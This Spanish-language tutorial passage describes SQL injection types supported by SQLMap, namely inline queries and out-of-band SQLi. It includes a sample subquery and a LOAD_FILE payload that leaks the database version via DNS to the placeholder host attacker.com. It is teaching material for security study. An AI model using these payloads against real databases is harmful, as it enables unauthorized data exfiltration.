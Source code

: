  `Boolean-based blind SQL Injection` no funcionaría en este caso.

---

## Inline queries

Ejemplo de `Inline Queries`:

```sql
SELECT (SELECT @@version) from
```

Este tipo de inyección inserta una consulta dentro de la consulta original. Este tipo de SQL injection es poco común, ya que necesita que la aplicación web vulnerable esté escrita de una cierta manera. Aún así, SQLMap soporta este tipo de SQLi también.

---

## Out-of-band SQL Injection

Ejemplo de `Out-of-band SQL Injection`:

```sql
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
```

Este se considera uno de los tipos más avanzados de SQLi, utilizado en casos donde todos los demás tipos no son compatibles con la aplicación web vulnerable o son demasiado lentos (por ejemplo, `time-based blind SQLi`). SQLMap soporta `out-of-band SQLi` a través de "DNS exfiltration", donde las consultas solicitadas se recuperan a través del tráfico DNS.

Ejecutando SQLMap en el servidor DNS para el dominio bajo control (por ejemplo, `.attacker.com`), SQLMap puede realizar el ataque forzando al servidor a solicitar subdominios inexistentes (por ejemplo, `foo.attacker.com`), donde `foo` sería la respuesta SQL que queremos recibir. SQLMap puede luego recopilar estas solicitudes DNS fallidas y recopilar la parte `foo` para formar la respuesta SQL completa.